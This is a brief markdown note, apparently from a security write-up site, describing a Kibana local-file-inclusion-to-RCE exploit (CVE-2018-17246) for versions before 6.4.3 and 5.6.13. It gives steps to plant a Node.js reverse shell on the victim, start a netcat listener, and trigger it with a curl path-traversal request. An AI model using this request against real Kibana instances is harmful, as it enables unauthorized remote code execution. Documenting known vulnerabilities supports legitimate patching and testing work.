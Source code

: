 ```yaml
---
layout: post
title: Kibana LFI to RCE
description: Kibana LFI to RCE
summary: Kibana LFI to RCE
tags: [kibana,exploit,rce]
minute: 1
---
```

## Overview
Attacker can achieve RCE by including a node js reverse shell via LFI and RFI

## Affected Versions
Versions before 6.4.3 and 5.6.13.

## Steps
* Put your node js reverse shell in `/tmp` of victim machine via file upload
* Open netcat listener on attacker machine
* Do an LFI

```bash
# this example assumes you have access inside the victim via file upload
# or any other means
curl 'http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../tmp/evil.js'
```

## References
* [Resolving Kibana Local File Inclusion Flaw CVE-2018-17246](https://www.elastic.co/blog/kibana-local-file-inclusion-flaw-cve-2018-17246)
* [GitHub - mpgn/CVE-2018-17246: CVE-2018-17246 - Kibana LFI < 6.4.3 & 5.6.13](https://github.com/mpgn/CVE-2018-17246)
* https://www.cyberark.com/resources/threat-research-blog/execute-this-i-know-you-have-it
* [learn365/day32.md at main · harsh-bothra/learn365 · GitHub](https://github.com/harsh-bothra/learn365/blob/main/days/day32.md)
